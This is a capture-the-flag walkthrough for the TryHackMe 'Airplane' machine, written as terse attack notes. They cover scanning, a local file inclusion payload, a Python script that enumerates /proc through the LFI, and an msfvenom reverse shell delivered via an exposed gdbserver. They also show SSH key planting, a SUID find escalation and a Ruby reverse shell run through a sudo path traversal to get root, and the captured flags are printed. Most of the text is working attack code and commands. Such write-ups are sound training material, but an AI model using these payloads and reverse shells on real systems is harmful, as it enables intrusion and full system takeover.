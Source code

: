 #airplane #thm #medium #LFI #/proc #gdbserver #SUID #find

#### Ports
-> commands : 
	`rustscan -a 10.10.107.188`
	`nmap -p 22,6048,8000 10.10.107.188 -T4 -A -oN nmap.txt`
```
PORT     STATE SERVICE  REASON
22/tcp   open  ssh      syn-ack
6048/tcp open  x11      syn-ack
8000/tcp open  http-alt syn-ack
```

#### Directory Enumeration
-> commands :
	`feroxbuster -u http://10.10.107.188:8000/ -x txt,php,html,zip,pcap`
```
http://airplane.thm:8000/?page=index.html
```
-> found this only , not other dirs.

#### LFI
-> URL : http://airplane.thm:8000/?page=index.html
-> Payload : http://airplane.thm:8000/?page=/../../../../etc/passwd
-> got */etc/passwd* file
```
carlos:x:1000:1000:carlos,,,:/home/carlos:/bin/bash
hudson:x:1001:1001::/home/hudson:/bin/bash
```

-> tried accessing a lot of files but no results

##### /proc part
-> then got introduced with a new concept .. 
	*/proc/< proc number>/cmdline* -> file
-> we can access any running process if we know the process number 
-> so we can run a python script to generate 1 to n numbers and send a get request , if we get the 200 on a perticular request it means that process is running , we might get somthing in processes , if we are unable to find nothing

-> python script 
```
import requests  
  
def read_file(base_url, path):  
    file_url = f"{base_url}/?page=../../../../{path}"  
    try:  
        response = requests.get(file_url)  
        if response.status_code == 200:  
            return response.text  
        else:  
            return None  
    except Exception as e:  
        print(f"Error reading {path}: {e}")  
        return None  
  
def find_pid_by_port(base_url, port):  
    for pid in range(1, 5000):  # Adjust the range based on the expected number of PIDs  
        cmdline_path = f"proc/{pid}/cmdline"  
        cmdline = read_file(base_url, cmdline_path)  
        if cmdline:  
            if str(port) in cmdline:  
                return pid  
    return None  
  
# Example usage  
base_url = 'http://airplane.thm:8000'  
port = '6048'  
pid = find_pid_by_port(base_url, port)  
if pid:  
    cmdline = read_file(base_url, f"proc/{pid}/cmdline")  
    status = read_file(base_url, f"proc/{pid}/status")  
    print(f'PID using port {port}: {pid}')  
    print(f'Command line: {cmdline}')  
    print(f'Status: {status}')  
else:  
    print(f'No process found using port {port}')
```

-> found a process name ->
	-> /proc/530/cmdline 
	-> it was running `/usr/bin/gdbserver0.0.0.0:6048airplane`

#### Gaining Shell as hudson
##### GdbServer Vulnerability 

-> enumerated -> found hacktrickz article 
-> https://book.hacktricks.xyz/network-services-pentesting/pentesting-remote-gdbserver?ref=benheater.com
```
# Trick shared by @B1n4rySh4d0w
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.17.127.143 LPORT=4444 PrependFork=true -f elf -o binary.elf

chmod +x binary.elf

gdb binary.elf

# Set remote debuger target
target extended-remote 10.10.82.135:6048

# Upload elf file
remote put binary.elf /tmp/binary.elf

# Set remote executable file
set remote exec-file /tmp/binary.elf

# Execute reverse shell executable
run

# You should get your reverse-shell
```

ran these commands and got reverse shell !!

#### Getting better Shell

-> `ssh-keygen -t rsa -f rghx -b 4096`
-> got two files rghx & rghx.pub 
-> copied rghx.pub in ~/.ssh/authorized_keys *{in victim's shell}*
-> `chmod 600 rghx`
-> `ssh -i rghx hudson@airplane.thm`

#### Post Exploitation Enumeration

-> linpeas
-> `/usr/bin/find` -> SUID set for carlos user

#### Shell as Carlos

-> `/usr/bin/find /home/carlos -name "user.txt" -exec cat /home/carlos/user.txt \;` -> to read user.txt
-> `/usr/bin/find /home/carlos -name "user.txt" -exec /bin/bash -p \;`

-> got perms to access & edit carlos files
-> did the same ssh generation and replacing ssh keys to 
	/home/carlos/.ssh/authorized_keys
-> `chmod 644 authorized_keys` --> important step

-> `ssh -i id_rsa carlos@IP`

###### user.txt : ***eebfca2ca5a2b8a56c46c781aeea7562***

#### Privilege Escalations

`sudo -l`
```
(ALL) NOPASSWD: /usr/bin/ruby /root/*.rb
```

-> here , after thinking for a minute i though to do path escaping 
-> so i wrote a ruby reverse shell {thankx to chat GPT}

`shell.rb`
```ruby
require 'socket'

# Exit if the process is a child
exit if fork

# Create a TCP socket connection to the specified address and port
c = TCPSocket.new("10.17.127.143", "9002")

# Continuously read commands from the socket
loop do
  # Read a line from the socket and remove the trailing newline character
  command = c.gets.chomp
  
  # Exit if the command is "exit"
  break if command == "exit"
  
  # Change directory if the command starts with "cd"
  if command =~ /cd (.+)/i
    begin
      Dir.chdir($1)
    rescue => e
      c.puts "failed to change directory: #{e.message}"
    end
  else
    # Execute the command and send the output to the socket
    begin
      IO.popen(command, 'r') do |io|
        c.print io.read
      end
    rescue => e
      c.puts "failed: #{e.message}"
    end
  end
end
```

-> put it in /tmp/shell.rb
-> `sudo /usr/bin/ruby /root/../tmp/shell.rb`
-> Boom!! Got reverse Shell as root !

###### root.txt : ***190dcbeb688ce5fe029f26a1e5fce002***
---------

